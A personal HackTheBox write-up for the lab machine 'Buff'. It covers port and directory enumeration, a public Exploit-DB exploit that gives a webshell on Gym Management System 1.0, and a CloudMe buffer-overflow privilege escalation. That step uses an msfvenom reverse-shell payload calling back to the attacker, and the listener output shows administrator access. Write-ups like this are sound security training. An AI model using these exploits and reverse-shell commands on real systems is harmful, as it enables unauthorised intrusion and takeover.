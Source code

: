 ```yaml
---
tags:
  - htb
---
```

# HackTheBox: [Buff](https://app.hackthebox.com/machines/Buff)

These are my notes, and not necessarily a detailed walk-through.

## Services

### TCP

First, a TCP [port scan with nmap](nmap-20240610.md):

```text
# Nmap 7.94SVN scan initiated Sat Aug 31 17:07:23 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-buff.htb.txt buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up, received user-set (0.089s latency).
rDNS record for 10.10.10.198: t
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 17:08:44 2024 -- 1 IP address (1 host up) scanned in 81.21 seconds
```

#### 8080/tcp-http

```text
__http-server-header:
Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
__http-open-proxy:
Potentially OPEN proxy.
Methods supported:CONNECTION
__http-title:
mrb3n's Bro Hut
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
```

```console
http://buff.htb:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```

Selection of potentially interesting URLs from `feroxbuster -u http://buff.htb:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -k -s 200,301,302`:

```text
...
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/

200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
200      GET        1l        2w       15c http://buff.htb:8080/include/process_login.php

200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
200      GET      122l      502w     5961c http://buff.htb:8080/facilities.php

301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      337c http://buff.htb:8080/Profile => http://buff.htb:8080/Profile/
200      GET      339l     2953w    18025c http://buff.htb:8080/LICENSE
301      GET        9l       30w      333c http://buff.htb:8080/att => http://buff.htb:8080/att/
301      GET        9l       30w      333c http://buff.htb:8080/IMG => http://buff.htb:8080/IMG/

301      GET        9l       30w      332c http://buff.htb:8080/ex => http://buff.htb:8080/ex/

301      GET        9l       30w      334c http://buff.htb:8080/boot => http://buff.htb:8080/boot/
```

```markup
$ curl 'http://buff.htb:8080/HOME.php'
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\home.php</b> on line <b>106</b><br />
```

```console
$ curl http://buff.htb:8080/editp.php -X POST -d "fn=hax"
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\editp.php</b> on line <b>21</b><br />
```

I can provoke some errors in various ways, like:

`**Warning**: mysqli::__construct(): (HY000/1049): Unknown database 'secure_login' in **C:\xampp\htdocs\gym\ex\include\db_connect.php** on line **3**`

And,

`:  Undefined index: username in <b>C:\xampp\htdocs\gym\ex\profile\i.php`

This site is running "Gym Management System 1.0", which has a SQLi vulnerability.

## Remote Code Execution

This is <https://www.exploit-db.com/exploits/48506>.

```console
$ python2 ./x.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```

## Privilege Escalation

Here's how I was able to escalate privileges for full control of the system.

```console
$ head 48389.py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
```

Used payload from: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python`

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.198] 49729
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post-exploitation

Life after `root`.

```text
PS C:\> systeminfo
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          shaun
Registered Organization:
Product ID:                00329-10280-00000-AA218
Original Install Date:     16/06/2020, 15:05:58
System Boot Time:          28/09/2024, 18:35:32
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.23553139.B64.2403260936, 26/03/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,455 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,054 MB
Virtual Memory: In Use:    1,745 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::f153:9dda:f5ce:bddb
                                 [03]: dead:beef::cd48:d0d8:4905:bb02
                                 [04]: dead:beef::f153:9dda:f5ce:bddb
                                 [05]: dead:beef::114
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
